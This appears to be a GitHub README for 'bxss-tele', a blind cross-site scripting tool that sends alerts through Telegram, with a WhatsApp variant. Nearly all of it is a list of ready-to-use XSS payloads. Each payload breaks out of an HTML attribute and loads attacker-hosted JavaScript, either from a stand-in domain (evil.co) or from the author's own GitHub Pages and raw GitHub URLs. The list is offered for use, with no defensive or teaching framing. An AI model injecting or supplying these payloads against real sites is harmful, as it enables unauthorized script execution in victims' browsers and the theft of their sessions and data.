 # bxss-tele
Blind XSS Alert Telegram

# Payloads
```"><script src="http://evil.co/bxss.js"></script>```

```"><script src=http://tucommenceapousser.github.io/bxss/bxss.js></script>```



```"><script src="https://raw.githubusercontent.com/tucommenceapousser/bxss/trkn/bxss.js">```

```"><script>$.getScript("//evil.co/bxt.js")</script>```

whatsapp

```"><script src=https://tucommenceapousser.github.io/bxss/wa.js></script>```

```"><script src=http://tucommenceapousser.github.io/bxss/wa.js></script>```
